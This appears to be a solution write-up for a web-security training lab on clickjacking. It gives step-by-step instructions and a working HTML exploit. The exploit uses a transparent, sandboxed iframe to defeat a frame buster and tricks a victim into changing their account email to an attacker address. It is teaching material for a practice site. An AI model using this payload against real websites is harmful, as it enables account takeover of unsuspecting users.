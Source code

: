                                 Replace <code>$url</code> in the iframe <code>src</code> attribute with the URL of the target website's user account page, which contains the "Update email" form.
                            </li>
                            <li>
                                Substitute suitable pixel values for the $height_value and $width_value variables of the iframe (we suggest 700px and 500px respectively).
                            </li>
                            <li>
                                Substitute suitable pixel values for the $top_value and $side_value variables of the decoy web content so that the "Update email" button and the "Test me" decoy action align (we suggest 385px and 80px respectively).
                            </li>
                            <li>
                                Set the opacity value $opacity to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.
                            </li>
                        </ul>
                        Notice the use of the <code>sandbox="allow-forms"</code> attribute that neutralizes the frame buster script.
                    </li>
                    <li>
                        Click <strong>Store</strong> and then <strong>View exploit</strong>.
                    </li>
                    <li>
                        Hover over "Test me" and ensure the cursor changes to a hand indicating that the div element is positioned correctly. If not, adjust the position of the div element by modifying the top and left properties of the style sheet.
                    </li>
                    <li>
                        Once you have the div element lined up correctly, change "Test me" to "Click me" and click <strong>Store</strong>.
                    </li>
                    <li>
                        Now click on <strong>Deliver exploit to victim</strong> and the lab should be solved.
                    </li>
                </ol>
            </div>
        </div>

exploit

```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:435px;
        left:80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a3b009d04b07373c0d3b24900db0022.web-security-academy.net/my-account?email=hacker@attacker-website.com" sandbox="allow-forms"></iframe>
```
